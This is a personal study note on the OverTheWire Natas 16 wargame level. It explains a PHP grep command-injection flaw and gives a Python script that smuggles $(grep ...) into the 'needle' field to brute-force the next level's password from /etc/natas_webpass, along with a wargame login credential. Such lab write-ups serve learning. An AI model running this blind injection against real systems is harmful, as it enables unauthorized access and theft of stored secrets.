 
2024-07-19 21:01

Source:  #natas #py 

Tags: [[regex]]
## Natas 16

 ```
passthru("grep -i \"$key\" dictionary.txt");  # snippet form website source code
```
- the key argument is passed in double quotes so it is isolated as its own argument we can't get around that
- we can't directly use `$(whoami)` to run commands because the command's output is used as a input for the grep command which is searching in the dictionary 

if we only send in `B` as input because `B` does exist in the password that command in the PHP code is filled in with the actual password an argument and it obviously can't find that in dictionary text so we don't see any output here

```
import requests
import re
import string

characters = string.ascii_letters+"0123456789"

username = 'natas16'
password = 'hPkjKYviLQctEW33QmuXL6eDVfMW4sGo'

url = 'http://natas16.natas.labs.overthewire.org/?debug=true'
sessions = requests.Session()
seen = list()

while(len(seen) < 32):
    for ch in characters:
        print("".join(seen)+ch)
        
        response = sessions.post(url,data = {"needle": "anythings$(grep ^" + "".join(seen) + ch + "  /etc/natas_webpass/natas17)"},auth = (username,password))
 
# grep ^ - ret true if the current character is a part of the password string at the cuurent position

        content = response.text
        returned = re.findall('<pre>\n(.*)\n</pre>',content)

        if not returned:
            seen.append(ch)
            break
            
# returned will be empty when we find the character because the server will try to grep the password string from the dictionary, which does not exist that is why we append the character in seen  
```
### References

https://www.youtube.com/watch?v=6XlDsn-R5oQ